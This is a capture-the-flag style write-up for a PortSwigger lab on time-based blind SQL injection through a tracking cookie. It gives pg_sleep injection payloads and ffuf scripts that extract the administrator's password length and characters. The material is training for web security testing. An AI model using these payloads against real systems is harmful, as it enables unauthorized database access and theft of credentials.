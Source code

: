 # Blind SQL injection with time delays and information retrieval

**Lab Url**: [https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

![Lab Description](img/lab-description.png)

## Analysis

According to the lab description the lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

We can confirm that the application is vulnerable to blind SQL injection with the below payload.

```bash
TrackingId=YOUR-TRACKING-ID'%3B+SELECT+pg_sleep(10)+--
```

The application will pause execution for about 10 seconds.

## Solution

To solve the lab, we have to craft a payload that triggers `sleep` function if a certain condition is met.

*Something like this.*

```bash
TrackingId=YOUR-LAB-ID'%3B+SELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+--
```

**Use the below script, to extract the password of the administrator user incrementally. Ffuf shows the duration of each request and the largest duration is usually printed last.**

*But before that extract the length of the password.*

```bash
#!/bin/bash

echo {0..30} | tr ' ' '\n' > range.txt

ffuf -X GET \
    -u https://YOUR-LAB-ID.web-security-academy.net \
    -H "Cookie: TrackingId=YOUR-TRACKING-ID'%3B+SELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)='FUZZ')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users--" \
    -w range.txt
```

```bash
echo {0..9} {a..z} {A..Z} | tr ' ' '\n' > chars.txt
```

```bash
#!/bin/bash

ffuf -X GET \
    -u https://YOUR-LAB-ID.web-security-academy.net \
    -H "Cookie: TrackingId=YOUR-TRACKING-ID'%3B+SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='FUZZ')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users--" \
    -w chars.txt
```

After retrieving the password login as administrator to solve the lab.

![Lab Solved](img/lab-solved.png)
